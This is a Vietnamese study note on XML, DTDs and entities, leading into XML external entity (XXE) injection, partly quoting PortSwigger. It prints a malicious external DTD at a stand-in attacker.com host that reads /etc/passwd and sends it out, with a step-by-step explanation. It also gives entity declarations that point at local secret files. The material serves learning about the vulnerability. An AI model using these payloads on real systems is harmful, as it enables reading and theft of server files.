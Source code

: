 ## Khái niệm
- XML: là ngôn ngữ đánh dấu mở rộng, gần tương tự với HTML, chỉ khác là HTML dùng để trình bày giao diện ra trang web, còn XML sử dụng để transfer data.
- Vậy XML được dịch nôm ra là ngôn ngữ đánh dấu mở rộng, được thiết kế với mục đích lưu trữ, truyền dữ liệu và cả người và "máy" đều có thể đọc được.
## Cấu trúc của file bao gồm


```
<?xml version="1.0"?> : Ở đây là meta để khai báo XML
<Person></Person> : Root node
<Name></Name> và <Age></Age> : Children node
```

![alt text](image-4.png)

- Khi chúng ta upload 1 file xml thì nó sẽ đi qua XML parser đây là cách xử lý XML và giúp lập trình viên xử lý data XML đơn giản hơn
![alt text](image-5.png)

- Tác dụng của XML parser
![alt text](image-6.png)

- Thẻ comment: <! – / -> – Dãy ký tự này được hiểu là phần đầu / phần cuối của một comment. Vì vậy, bằng cách đưa một trong số chúng vào tham số Tên người dùng:

```
test = foo<!--
```

- Ký hiệu và: & – Dấu và được sử dụng trong cú pháp XML để đại diện cho các thực thể. Định dạng của một thực thể là & ký hiệu ;. Một thực thể được ánh xạ tới một ký tự trong bộ ký tự Unicode.

```
<tagnode>&lt;</tagnode>

```

- các ký tự đặc biệt trong xml sẽ phải encode.

## Document Type Definition(DTD):
- DTD (document type definitions) - dịch nôm ra DTD dùng để "định nghĩa loại tài liệu" thông qua việc xác định cấu trúc cũng như chỉ ra format hợp lệ của các elements và attributes trong file xml.
- DTD (document type definition) là thẻ đặc biệt giúp chúng ta có thể include như trong PHP. Nó giống như cho phép chúng ta định nghĩa 1 biến, tài nguyên mới để chúng ta sử dụng, và trong đó chúng ta có thể định nghĩa 1 tài nguyên là EXTERNAL ENTITY giúp chúng ta có thể đọc 1 file hay 1 url
- XML DTD chứa các khai báo (declaraion) nhằm dựng nên cấu trúc của một file XML, loại dữ liệu hoặc là các item khác. DTD được khai báo với DOCTYPE elemt ở đầu file XML. DTD có thể tự định nghĩa ở trong chính file XML (Internal DTD) hoặc có thể được load ở ngoài (External DTD)
ví dụ dưới đây là ví dụ về một External DTD. Tức là bản thân DTD là một file, nằm ngoài file xml:

```
![alt text](image-7.png)
```

- DOCTYPE declaration. Phần này chứa một reference tới một DTD file có tên Note.dtd. Nội dung của nó:
![alt text](image-8.png)
![alt text](image-10.png)
![alt text](image-9.png)

- khi đó giá trị của address trong thẻ name sẽ được lấy trong file "address.dtd"
Vậy DTD giúp các file xml thống nhất một standard/format xác định, từ đó dễ dàng hơn trong việc xác định cấu trúc của dữ liệu, đặc biệt khi chuyển file từ nơi này sang nơi khác, người sử dụng có thể sử dụng DTD để verify lại file xml có giống như standard/format mong muốn hay không.

- Có 2 dạng DTD thường được sử dụng:
+ Internal DTD được khai báo trong chính file XML tương ứng:

```
<!DOCTYPE root-element [element-declarations]>
```
VD: 
```
<?xml version="1.0"?>
// Khai báo internal DTD
<!DOCTYPE note [
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT heading (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget</body>
</note>
```

- External DTD: Khai báo nội dung trong một tệp tin .dtd sẽ được tham chiếu tới sau đó. Ví dụ, kẻ tấn công host một trang web public có chứa một external DTD file có URL http://attacker.com/malicious.dtd có nội dung như sau:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

```

- Tệp tin DTD này thực hiện các bước hoạt động như sau:

+  nghĩa một parameter entity với tên file có giá trị là nội dung tệp /etc/passwd
+ Định nghĩa một entity với tên eval, trong entity này chứa một định nghĩa parameter entity khác với tên exfiltrate sẽ gửi request tới website của attacker http://attacker.com/, truyền tham số x chứa nội dung tệp /etc/passwd bằng cách gọi tham chiếu entity %file;
+ Gọi tham chiếu entity %eval chứa định nghĩa entity exfiltrate
+ Gọi tham chiếu entity %exfiltrate;.
&#x25; là định dạng HTML encode của ký tự % do được chứa trong một định nghĩa parameter entity khác.
+ Các định nghĩa parameter entity cần được gọi tham chiếu mới có thể hoạt động. Như trong ví dụ file DTD trên gọi tham chiếu %eval;, để định nghĩa về entity eval hoạt động thì cần gọi thêm tham chiếu %exfiltrate;, trong định nghĩa của entity exfiltrate đã chứa việc gọi tham chiếu %file;


## Entity
- Entity: là một khái niệm có thể được sử dụng như một kiểu tham chiếu đến dữ liệu, cho phép thay thế một ký tự đặc biệt, một khối văn bản hay thậm chí toàn bộ nội dung một file vào trong tài liệu xml. Một số kiểu entity: character, parameter, named (internal), external…
Có thể coi các entity là một biến để lưu trữ dữ liệu vậy, chúng ta có thể khai báo nó một lần, gán giá trị vào cho nó và sử dụng ở trên toàn bộ file XML. Các entity chỉ có thể được khai báo ở DTD (Document Type Definition)
- Entity có thể được khai báo như sau:
```
<!ENTITY entity-name “entity-value” >
```

Hoặc :
```
!ENTITY entity-name SYSTEM "URI/URL">
```

- ví dụ về Internal DTD Entity:
```
Syntax:
<!ENTITY entity-name "entity-value">

Example:
<!ENTITY website "macilous.com">
<!ENTITY author "123 &website;"> 
<author>&author;</author>

Output:
<author>123 macilous.com</author>
```

- Ví dụ về External DTD Entity:

```
Syntax:
<!ENTITY name SYSTEM "URI/URL">

Example:
<!ENTITY author SYSTEM "http://example.com/entities.dtd"> <author>&author;</author>
```


## XML Custom Entity
- XML cho phép chúng ta tự tạo nên một custom entity được khai báo ở trong DTD
![alt text](image-11.png)
- Ở đây chúng ta đã khai báo một entity tên gọi myentity với giá trị là "my entity value", vì vậy ở những node thì nếu chúng ta chèn entity myentity thì sẽ cần ghi ra là &myenity;
## XML External Entity:
- External Entity là một loại custom entity mà giá trị của nó load ở bên ngoài DTD. Ở đây nó sẽ ảnh hưởng đến bảo mật của trang web bởi vì giá trị của một external entity có thể là đường dẫn của một file hoặc URL.
- External entity: entity tham chiếu đến nội dung một file bên ngoài tài liệu xml
Ví dụ external entity:
```
<!DOCTYPE order SYSTEM "order.dtd">
<!DOCTYPE ran SYSTEM "/dev/random">
<!DOCTYPE request [
     <!ENTITY include SYSTEM "c:\secret.txt">
]>
```

## XML external entity (XXE) injection

### Khái niệm
- Theo port swigger :
- Tính năng chèn thực thể bên ngoài XML (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của máy chủ ứng dụng và tương tác với bất kỳ hệ thống phụ trợ hoặc bên ngoài nào mà chính ứng dụng có thể truy cập.

- Trong một số trường hợp, kẻ tấn công có thể leo thang cuộc tấn công XXE để xâm phạm máy chủ cơ bản hoặc cơ sở hạ tầng phụ trợ khác, bằng cách lợi dụng lỗ hổng XXE để thực hiện các cuộc tấn công giả mạo yêu cầu phía máy chủ (SSRF).

### Nguyên nhân
- Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện việc này hầu như luôn sử dụng thư viện chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Lỗ hổng XXE phát sinh do đặc tả XML chứa nhiều tính năng nguy hiểm tiềm tàng khác nhau và các trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng thường không được ứng dụng sử dụng.


### XML entities
- Entity: có thể được sử dụng như một kiểu tham chiếu đến dữ liệu, cho phép thay thế một ký tự đặc biệt, một khối văn bản hay thậm chí toàn bộ nội dung một file vào trong tài liệu xml. Một số kiểu entity: character, named (internal), external, parameter.
- Ví dụ:
```
&amps; -> &
&lt; -> <
&gt; -> >
```

- Theo port swigger:
- Các thực thể XML là một cách thể hiện một mục dữ liệu trong một tài liệu XML, thay vì sử dụng chính dữ liệu đó. Nhiều thực thể khác nhau được tích hợp sẵn theo đặc tả của ngôn ngữ XML. Ví dụ: các thực thể &lt;và &gt;đại diện cho các ký tự <và >. Đây là các siêu ký tự được sử dụng để biểu thị các thẻ XML và do đó thường phải được biểu diễn bằng các thực thể của chúng khi chúng xuất hiện trong dữ liệu.



